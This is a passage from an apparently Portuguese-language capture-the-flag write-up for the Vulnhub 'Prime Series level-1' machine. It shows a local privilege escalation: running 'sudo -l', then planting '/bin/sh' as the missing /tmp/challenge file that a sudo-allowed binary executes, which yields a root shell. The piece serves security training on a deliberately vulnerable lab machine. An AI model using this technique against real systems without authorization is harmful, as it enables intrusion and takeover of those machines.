 
* Listamos os binarios que podem ser executados com o sudo

```bash
sudo -l
```

![](/assets/img/Vulnhub/Prime_Series_level-1/sudo-l-saket.png)


* Ao executar o binario e exibido uma mensagem de afronta e um erro de "not foud" do arquivo **/tmp/challenge**

![](/assets/img/Vulnhub/Prime_Series_level-1/challenge.png)


* Provavelmente esse arquivo que nao foi encontrado sera executado como root. Entao vamos criar esse arquivo para nos enviar um shell e consequentemente viraremos **ROOT**!

```bash
echo "/bin/sh" > /tmp/challenge
chmod +x /tmp/challenge
cat /tmp/challenge
sudo /home/victor/undefeated_victor
python -c "import pty;pty.spawn('/bin/bash')"
id
```

![](/assets/img/Vulnhub/Prime_Series_level-1/criando_challenge_virando_root.png)
